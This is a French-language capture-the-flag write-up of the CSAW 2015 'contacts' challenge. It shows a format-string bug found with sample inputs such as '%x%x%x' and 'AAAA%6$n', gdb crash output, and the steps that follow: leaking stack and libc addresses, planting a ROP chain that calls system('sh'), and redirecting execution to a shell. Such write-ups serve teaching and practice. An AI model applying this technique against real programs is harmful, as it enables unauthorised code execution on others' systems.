 ```yaml
---
title: CSAW-preq 2015 - Contacts (exploitable 250)
date: 2015-09-24
tags: ctf,exploit,csaw2015
author: Tosh
layout: post
---
```


Voici un petit write-up pour le challenge 'contacts' du CSAW ctf 2015.


### **Analyse**

```
$ rop-tool info ./exploit250
     ===== INFOS =====
    Filename                 ./exploit250
    File format              ELF32
    Architecture             x86
    Endianess                little endian
    Entry point              0x80485c0
    Loadables segments       2
    Sections                 28

    NX bit                   enabled
    SSP                      enabled
    Relro                    partial
    RPATH                    no rpath
    RUNPATH                  no runpath
    PIE                      disabled

```

Pour ce challenge, je suis resté sur de l'analyse dynamique.

```
 $ ./contacts
 Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>>
```

On a donc un programme qui permet de créer/détruire/éditer/afficher des contacts.

On découvre assez vite une vulnérabilité de type 'format string' dans la fonction permettant d'afficher les contacts :

```
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 1
    Contact info:
            Name: A
    [DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
            Enter Phone No: 0000000000
            Length of description: 10
            Enter description:
                    %x%x%x
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 4
    Contacts:
            Name: A
            Length 10
            Phone #: 0000000000
            Description: 9ee9358ecf4620b0
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>>
```

On remarque, qu'en écrivant à l'adresse du 6ème argument, on est capable de réécrire un saved-ebp, et donc de rediriger le flux d'exécution si on arrive à avoir des données sous notre controle sur la stack :

```
$ gdb ./exploit250
     gdb-peda$ r
     warning: Cannot call inferior functions, Linux kernel PaX protection forbids return to non-executable pages!
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 1
    Contact info:
            Name: A
    [DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
            Enter Phone No: 0000000000
            Length of description: 100
            Enter description:
                    AAAA%6$n
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
>>> 4
    Contacts:
            Name: A
            Length 100
            Phone #: 0000000000
            Description: AAAA
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 5
    Thanks for trying out the demo, sadly your contacts are now erased

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x0
    EBX: 0x0
    ECX: 0xf27e7da8
    EDX: 0xf27e8870
    ESI: 0x1
    EDI: 0xf27e7000
    EBP: 0x4
    ESP: 0xfdc022f0
    EIP: 0x80487d1
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x80487d1
    [------------------------------------stack-------------------------------------]
    Invalid $SP address: 0xfdc022f0
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x080487d1 in ?? ()
    gdb-peda$ x/2i $eip
    => 0x80487d1:   leave
       0x80487d2:   ret
    gdb-peda$ x $ebp
       0x4: Cannot access memory at address 0x4
```


### *Exploitation*


#### 0x00

Grace à la format string, je leak l'adresse de la stack (6ème argument) et de la libc (2nd argument)

#### 0x01

Je créer un contact afin de mettre des données que je controle sur la stack. Il s'agit d'une rop chain, faisant simplement un system("sh").

Afin d'augmenter les chances de retomber dessus, je rajoute au début un rop sled (une suite de ret).

#### 0x02

Ensuite, je réécrit les 2 bytes de poids faible du saved-ebp (6ème argument présent sur la stack), afin de faire pointer esp sur ma rop-chain au moment du ret.

#### 0x03

Il nous reste plus qu'à quitter le programme, afin que notre fonction retourne, et retombe sur notre rop-chain...


La difficulté majeure à laquelle j'ai été confronté, était que je n'avais aucune idée de quelle libc était utilisée sur le serveur distant...

Mais après quelques essais, j'ai tout de même réussi à retrouver les bons offsets principalement grâce à ce répo github : [libc-database](https://github.com/niklasb/libc-database)


```
    $ perl sploit.pl
    [+] Stack: 0xfff3e788
    [+] Libc: 0xf7604000
    [+] puts: 0xf7668c10
    [+] system: 0xf7643cd0
    [+] Enjoy your shell !
    $ ls
    contacts_54f3188f64e548565bc1b87d7aa07427
    flag
    $ cat flag
    flag{f0rm47_s7r1ng5_4r3_fun_57uff}
```


[exploit](https://github.com/t00sh/ctf/blob/master/2015/csaw-preq/exploit250.pl)

[binaire](https://repo.t0x0sh.org/ctf/2014-csaw_preq/exploit250)